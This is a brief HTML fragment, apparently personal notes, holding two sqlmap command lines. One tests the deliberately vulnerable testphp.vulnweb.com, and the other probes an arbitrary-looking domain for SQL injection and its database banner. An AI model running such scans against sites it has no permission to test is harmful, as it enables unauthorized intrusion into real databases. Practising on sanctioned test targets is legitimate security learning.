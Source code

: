 <p>
	sqlmap-u http://testphp.vulnweb.com/listproducts.php?cat=1
</p>
<p>
	sqlmap-master\sqlmap.py -u &nbsp;"http://www.ddd.com/index?d=55" --batch --banner
</p>
<p>
	<br />
</p>
<p>
	<br />
</p>
<p>
</p>